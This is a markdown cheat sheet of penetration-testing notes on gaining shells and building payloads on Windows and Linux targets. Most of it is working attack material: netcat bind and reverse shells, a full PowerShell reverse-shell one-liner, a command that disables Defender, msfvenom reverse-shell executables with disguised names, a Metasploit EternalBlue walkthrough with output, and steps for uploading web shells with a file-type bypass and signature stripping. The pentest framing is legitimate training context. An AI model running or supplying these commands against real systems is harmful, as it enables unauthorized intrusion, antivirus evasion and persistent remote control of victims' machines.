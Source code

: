 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
search smb
```

Selecting an Exploit  

```bash
use 56
```

Examining an Exploit's Options  

```bash
options
```

Setting Options  

```bash
set RHOSTS <TARGET IP>
set SMBUser <USER>
set SMBPass <PASSWORD>
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When utilizing ICMP to determine if the host is up, a typical response from a Windows host will either be 32 or 128. A response of or around 128 is the most common response you will see.  

**Attack Machine:** Ping target
```bash
PING <WINDOWS IP> (<WINDOWS IP>): 56 data bytes
64 bytes from <WINDOWS IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <WINDOWS IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <WINDOWS IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <WINDOWS IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <WINDOWS IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <WINDOWS IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** File used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. Injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

**Batch:** Text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter.  

**VBS:** Lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

**MSI:** When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file. Once we have it on the host, we can run msiexec to execute our file, which will provide us with further access, such as an elevated reverse shell.

**Powershell:** It is both a shell environment and scripting language. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <WINDOWS IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
use auxiliary/scanner/smb/smb_ms17_010 
show options
set RHOSTS <WINDOWS IP>
run
```

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
search eternal
use 2
options
```

Since I have had more luck with the psexec version of this exploit, we will try that one first. Let's choose it and continue the setup.

**Attack Machine: Validate Our Options**  

```bash
show options
```

This time, we kept it simple and just used a windows/meterpreter/reverse_tcp payload.

**Attack Machine: Execute Our Attack**  

```bash
exploit

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <WINDOWS IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <WINDOWS IP>:445 - Built a write-what-where primitive...
# [+] <WINDOWS IP>:445 - Overwrite complete... SYSTEM session obtained!
```

Now that we have an open session through Meterpreter, we are presented with the meterpreter > prompt
If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

**Attack Machine: Verify Our Session**  

```bash
getuid

# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell

# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
search rconfig
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
options
set RHOSTS <TARGET IP>
set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

There may be times that we land on a system with a limited shell, and Python is not installed. In these cases, it's good to know that we could use several different methods to spawn an interactive shell. 

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

If the programming language Ruby is present on the system, this command will execute the shell interpreter specified:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

If the programming language Lua is present on the system, we can use the os.execute method to execute the shell interpreter specified using the full command below:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports. It can also be used to spawn an interactive shell. 

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell is a browser-based shell session we can use to interact with the underlying operating system of a web server. To achieve persistence on a system, in many cases, this is the initial way of gaining remote code execution via a web application, which we can then use to later upgrade to a more interactive reverse shell.

During our external penetration tests, we most commonly "get in" (gain a foothold inside the internal network) via web application attacks (file upload attacks, SQL injection, RFI/LFI, command injection, etc.), password spraying (against RDS, VPN portals, Citrix, OWA, and other applications using Active Directory authentication), and social engineering.

Web applications are often the majority of what we see exposed during an external network assessment and often present an enormous attack surface. We may find publicly available file upload forms that let us directly upload a PHP, JSP, or ASP.NET web shell.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include asp, aspx, jsp, php, and more.

<details>
<summary><h3>Installation</h3></summary>  

Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use.

**Clone the repository**
```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum files can be found in the /usr/share/laudanum directory. For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is a web shell built in ASP.Net included within the Nishang project. Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest. 

Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server. The UI is even themed like PowerShell.

<details>
<summary><h3>Installation</h3></summary>  

The Antak files can be found in the /usr/share/nishang/Antak-WebShell directory or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Make sure you set credentials for access to the web shell (This can help make your operations more secure by ensuring random people can't just stumble into using the shell).

> **Note:** It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/antak.aspx) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

Start Burp Suite, navigate to the browser's network settings menu and fill out the proxy settings. 127.0.0.1 will go in the IP address field, and 8080 will go in the port field to ensure all requests pass through Burp (recall that Burp acts as the web proxy).

> **Note:** Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

We will change Content-type from application/x-php to image/gif. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select Forward.

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When utilizing web shells, consider the below potential issues that may arise during your penetration testing process:

* Web applications sometimes automatically delete files after a pre-defined period
* Limited interactivity with the operating system in terms of navigating the file system, downloading and uploading files, chaining commands together may not work (ex. whoami && hostname), slowing progress, especially when performing enumeration -Potential instability through a non-interactive web shell
* Greater chance of leaving behind proof that we were successful in our attack

Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and cover our tracks. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. 

</details>

</details>